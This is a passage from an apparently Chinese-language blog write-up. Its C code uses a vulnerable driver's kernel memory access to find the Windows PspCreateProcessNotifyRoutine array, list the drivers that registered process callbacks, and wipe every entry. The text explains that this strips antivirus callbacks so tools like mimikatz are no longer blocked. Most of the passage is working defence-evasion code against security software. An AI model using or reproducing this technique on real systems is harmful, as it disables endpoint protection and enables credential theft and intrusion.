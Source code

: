 ```plain

    INT64 PspCreateProcessNotifyRoutineAddress = PspSetCallbackssNotifyRoutineAddress + PspOffset + 7;

    return PspCreateProcessNotifyRoutineAddress;
}

int main()
{   
    Process = InitialDriver();
    if (!Process) return 0;
    INT64 PspCreateProcessNotifyRoutineAddress = GetPspCreateProcessNotifyRoutineArray();
    if (!PspCreateProcessNotifyRoutineAddress) {
        printf("Exit1\n");
        return 0;
    }
    printf("PspCreateProcessNotifyRoutineAddress: %I64x\n", PspCreateProcessNotifyRoutineAddress);

    INT64 buffer = 0;
    //展示所有注册进程回调的驱动
    printf("注册了进程回调的驱动基地址及其名称: \n----------------------------------------------------\n");
    for (int k = 0; k < 64; k++)
    {
        DriverReadMemery((VOID*)(PspCreateProcessNotifyRoutineAddress +(k * 8)), &buffer, 8);
        if (buffer == 0) continue;
        INT64 tmpaddr = ((INT64)buffer >> 4) << 4;
        DriverReadMemery((VOID*)(tmpaddr + 8), &buffer, 8);
        INT64 DriverCallBackFuncAddr = (INT64)buffer;
        DisplayDriverName(DriverCallBackFuncAddr);
    }
    printf("----------------------------------------------------\n以上不保证完全准确\n");

    //清除全部驱动的进程回调
    BYTE* data = (BYTE*)calloc(1, 1);
    for (int i = 0; i < 64; i++)
    {
        DriverReadMemery(data, (VOID*)(PspCreateProcessNotifyRoutineAddress + (i * 8)), 8);
    }
    printf("[Success] 进程回调清除完成\n");
    system("pause");
}
```

代码中的`DriverReadMemery()` 就是利用驱动进行读写的利用函数，具体实现要根据不同驱动情况来写。此外代码中最后清除的是全部驱动的进程回调，实际环境中需要根据驱动来进行清除，不然会导致系统某些功能出问题（目前发现清除全部会断网）。

以下面一个杀软的进程回调函数为例，一般情况下打开原生的 mimikatz 必然被拦截。
